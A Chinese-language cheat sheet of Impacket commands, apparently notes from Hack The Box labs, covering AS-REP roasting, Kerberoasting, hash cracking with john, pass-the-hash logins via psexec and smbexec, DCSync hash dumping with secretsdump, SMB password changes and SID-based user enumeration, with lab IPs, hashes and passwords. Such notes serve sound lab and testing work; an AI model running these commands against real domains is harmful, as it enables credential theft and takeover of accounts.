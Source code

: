 # kerberos

## GetNPUsers.py,请求不需要预认证的票据(需要一份用户名单)
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile /root/htb/Forest/user  -outputfile hashes.asreproast -dc-ip 10.10.10.161
```

上面的结果使用john破解
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast
```


## GetUserSPNs.py，获取SPN
```
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

上面的结果使用john破解
```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
```


# 登录
psexec.py，明文密码登录
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.180
```

psexec.py，pth登录
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py htb/Administrator@10.10.10.161  -hashes "32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6"
```

smbexec.py，smb登录
```
python3 /usr/share/doc/python3-impacket/examples/smbexec.py Administrator@10.10.10.161 -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6
```


mssqlclient.py, mssql登录
```
/root/impacket/examples/mssqlclient.py POO_PUBLIC\external_user:'#p00Public3xt3rnalUs3r#'@10.13.38.11 -windows-auth
```


# hash dump

已经有了DCSync的权限（或者对ADMIN$有读写权限），可以使用secretsdump.py导出所有用户哈希
```
python3 /root/impacket-master/examples/secretsdump.py htb.local/max:max@123456@10.10.10.161
```

# 修改smb密码
smbpasswd.py
```
python3 /root/impacket-master/examples/smbpasswd.py  fabricorp.local/tlavel:Fabricorp01@10.10.10.193 -newpass 'Fabricorp02'
```

# 枚举用户名
lookupsid.py
```
python3 /opt/impacket/examples/lookupsid.py anonymous@10.10.33.36
```